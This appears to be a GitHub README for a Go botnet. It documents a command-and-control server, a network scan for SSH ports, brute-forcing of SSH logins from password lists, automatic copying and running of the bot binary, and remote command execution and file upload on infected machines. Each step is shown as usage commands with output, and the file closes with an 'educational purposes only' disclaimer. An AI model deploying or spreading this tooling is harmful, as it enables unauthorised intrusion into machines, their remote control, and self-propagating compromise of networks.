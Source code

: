 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

Compile from the `botnet/cmd/botnet` directory.

 - Run the C&C:

```bash
botnet listen
```

This starts up a C&C that listens on default port `9999`.

- Attack a machine to get the botnet on the machine. The only supported attack right now is brute forcing SSH 

```bash
botnet -ufile /paht/to/usernames/file -pfile /path/to/passwords/file -bindir /path/to/botnet/bin/dir attack ssh
```

This will scan all the ips on the network find which ips have port 22 open and attempt to brute force its way in. Once it has access it will SCP the botnet binary over and execute the botnet client to connect to our command and control center

 - Connect a payload to the C&C:

```bash
botnet -target 192.168.2.2 -port 9999 connect
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<CC:#>`

show all payloads connected to C&C:

```bash
<CC:#> show
```

This will return the payload ids and addresses

```
ID: 0 Address: 127.0.0.1:64635
ID: 1 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads id:

```bash
<CC:#> use 0
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<CC#>`

#Terms of Use

* Do NOT use this on any computer you do not own, or are allowed to run this on;
* You may NEVER attempt to sell this, its free and open source;
* The authors and publishers assume no responsibility;
* For educational purposes only.
